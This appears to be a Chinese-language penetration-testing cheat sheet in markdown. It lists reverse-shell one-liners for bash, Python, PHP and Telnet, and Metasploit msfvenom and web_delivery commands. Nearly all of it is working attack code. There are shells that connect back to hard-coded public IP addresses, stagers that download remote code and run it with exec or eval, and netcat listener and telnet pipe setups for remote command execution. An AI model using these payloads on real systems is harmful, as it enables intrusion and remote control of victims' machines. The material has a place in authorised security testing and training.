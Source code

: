 ```shell
bash -c '0<&200-;exec 200<>/dev/tcp/192.168.3.32/6666;sh <&200 >&200 2>&200'
```
![[腾讯课堂20230811213414.png]]

### Python
```shell
# 一行命令反弹shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Msfvenom的python反弹shell的payload
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=139.155.49.43 LPORT=6666 -f raw
handler -p python/meterpreter/reverse_tcp -H 139.155.49.43 -P 6666
```
- Web delivery反弹shell
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 0
msf5 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lport 8888
msf5 exploit(multi/script/web_delivery) > exploit –j
#
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://139.155.49.43:8080/pWMAajktf', context=ssl._create_unverified_context());exec(r.read());"
```

### PHP
- 一行命令反弹shell
```shell
php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Msfvenom生成
```shell
msfvenom -p php/bind_php lport=6666 -f raw > bind_php.php
```
- Web_delivery
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 1
msf5 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > exploit –j
#
php -d allow_url_fopen=true -r "eval(file_get_contents('http://139.155.49.43:8080/RRfKpX', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

### Telnet
```shell
# 攻击机
nc -lvvp 5555
nc -lvvp 6666

# 目标机
telnet 192.168.1.101 5555 | /bin/bash | telnet 192.168.1.101 6666
```
```shell
# 攻击机
nc -lvvp 6666
# 目标机
rm -f a && mknod a p && telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
rm -f a;mknod a p;telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
```